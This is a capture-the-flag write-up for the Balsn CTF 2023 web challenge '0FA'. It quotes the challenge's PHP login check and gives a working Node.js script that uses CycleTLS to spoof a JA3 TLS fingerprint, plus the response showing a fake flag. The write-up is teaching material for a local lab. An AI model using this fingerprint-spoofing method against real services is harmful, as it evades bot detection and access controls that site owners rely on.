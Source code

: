 ### 0FA - balsnctf 2023 - web

![Challenge Description](chall_2023-10-08_18-01.png "Challenge Description")

### Running the challenge locally

```
docker-compose up -d
```

You can now access the challenge at https://localhost:8787/

### Writeup

Looking at flag.php we have the following:
```
include_once("config.php");
fingerprint_check();
if(!isset($_POST['username']) || $_POST['username'] !== "admin")
    die("Login failed!");
```

This means that to get the flag we need to send the username POST parameter as admin and we have to bypass the following fingerprint_check function:
```
define("FINGERPRINT", "771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0");

function fingerprint_check() {
    if($_SERVER['HTTP_SSL_JA3'] !== FINGERPRINT) 
        die("Login Failed!"); 
}
```

If you want to know more about JA3 fingerprinting I recommend the following resources:
- https://github.com/salesforce/ja3
- https://engineering.salesforce.com/tls-fingerprinting-with-ja3-and-ja3s-247362855967/

To spoof the JA3 fingerprint that the server is expecting I've used the following project:
- https://github.com/Danny-Dasilva/CycleTLS

And created the following code:
```
const initCycleTLS = require('cycletls');

(async () => {
  const cycleTLS = await initCycleTLS();

  const response = await cycleTLS('https://localhost:8787/flag.php', {
    body: 'username=admin',
    ja3: '771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0',
    headers: {"Content-Type": "application/x-www-form-urlencoded",},
    userAgent: 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0'
  }, 'post');

  console.log(response);
  cycleTLS.exit();
})();
```

To run this code go to the solution folder and run the following:
```
npm install
node attack.ts
```

Since the code is sending the expected username and spoofing the JA3 fingerprint we are able to retrieve the flag:
```
{
  status: 200,
  body: '<html>\n' +
    '<head>\n' +
    '    <title>Balsn CTF 2023 - 0FA</title>\n' +
    '    <meta charset="UTF-8">\n' +
    '    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.4/css/bulma.min.css">\n' +
    '</head>\n' +
    '<body>\n' +
    '  Here is your flag: BALSN{fake_flag}</body>\n' +
    '</html>',
  headers: {
    Connection: 'keep-alive',
    'Content-Type': 'text/html; charset=UTF-8',
    Date: 'Sun, 08 Oct 2023 17:41:54 GMT',
    Server: 'nginx/1.23.1'
  }
}
```